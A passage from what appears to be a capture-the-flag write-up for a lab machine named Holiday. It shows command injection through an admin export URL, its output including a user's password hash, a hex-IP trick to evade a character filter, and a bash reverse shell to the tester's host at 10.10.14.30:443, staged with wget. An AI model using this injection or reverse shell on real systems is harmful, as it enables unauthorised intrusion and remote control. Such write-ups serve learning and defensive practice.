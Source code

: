 

    Invalid table name - only characters in the range of [a-z0-9&\s\/] are allowed



That's interesting. Why would a table name need a space, forward slash,
or ampersand. The ampersand inspired me to try command injection by
visiting `/admin/export?table=users%26id`:



    uid=1001(algernon) gid=1001(algernon) groups=1001(algernon)
    1|RickA|fdc8cd4cff2c19e0d1022e78481ddf36|1



#### Shell / Filter Bypass

Now that I have code execution, I'll need a shell. All the reverse
shells I typically use have tons of banned characters in them. The first
thing I need to figure out is how to get my ip. Luckily, there's a trick
on Linux that IPs can be written in hex. On my local box, I'll
demonstrate. 127 = 0x7f, 0 = 0x00, and 1 = 0x01. So I can ping
0x7f000001:



    root@kali# ping -c 1 0x7f000001
    PING 0x7f000001 (127.0.0.1) 56(84) bytes of data.
    64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.028 ms

    --- 0x7f000001 ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 0.028/0.028/0.028/0.000 ms



Once you have that trick, the rest is rather straight forward. I'll
create a file, `rev` with a reverse shell in it:



    #!/bin/bash

    bash -i >& /dev/tcp/10.10.14.30/443 0>&1



Now I'll use `wget` to get it onto Holiday. Nothing comes back in the
response:

![](/img/1567849534705.png)
